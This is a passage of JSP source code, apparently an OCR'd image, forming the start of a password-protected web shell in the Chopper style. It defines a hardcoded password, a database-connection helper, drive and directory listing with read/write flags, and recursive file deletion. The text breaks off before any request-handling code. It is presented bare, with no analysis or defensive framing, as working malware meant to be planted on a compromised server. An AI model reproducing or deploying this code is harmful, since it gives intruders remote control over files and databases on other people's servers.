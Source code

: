     <%@page import="java.io.*,java.util.*,java.net.*,java.sql.*,java.text.*"%>  
    <%!  
      String Pwd = "hetian";  
      String cs = "UTF-8";  

       String EC(String s) throws Exception {  
           return new String(s.getBytes("ISO-8859-1"),cs);  
       }  

       Connection GC(String s) throws Exception {  
           String[] x = s.trim().split("choraheiheihei");  
         Class.forName(x[0].trim());  
          if(x[1].indexOf("jdbc:oracle")!=-1){  
              return DriverManager.getConnection(x[1].trim()+":"+x[4],x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);  
          }else{  
              Connection c = DriverManager.getConnection(x[1].trim(),x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);  
            if (x.length > 4) {  
                  c.setCatalog(x[4]);  
              }  
              return c;  
           }  
       }  

      void AA(StringBuffer sb) throws Exception {  
          File k = new File("");  
          File r[] = k.listRoots();  
           for (int i = 0; i < r.length; i++) {  
             sb.append(r[i].toString().substring(0, 2));  
         }  
      }  

       void BB(String s, StringBuffer sb) throws Exception {  
           File oF = new File(s), l[] = oF.listFiles();  
         String sT, sQ, sF = "";  
            java.util.Date dt;  
          SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");  
         for (int i = 0; i < l.length; i++) {  
              dt = new java.util.Date(l[i].lastModified());  
               sT = fm.format(dt);  
               sQ = l[i].canRead() ? "R" : "";  
               sQ += l[i].canWrite() ? " W" : "";  
               if (l[i].isDirectory()) {  
                   sb.append(l[i].getName() + "/\t" + sT + "\t" + l[i].length()+ "\t" + sQ + "\n");  
              } else {  
                   sF+=l[i].getName() + "\t" + sT + "\t" + l[i].length() + "\t"+ sQ + "\n";  
               }  
           }  
           sb.append(sF);  
       }  

       void EE(String s) throws Exception {  
           File f = new File(s);  
          if (f.isDirectory()) {  
               File x[] = f.listFiles();  
               for (int k = 0; k < x.length; k++) {  
                   if (!x[k].delete()) {  
                      EE(x[k].getPath());  
                   }  
               }  
           }  
          f.delete();  
    }  
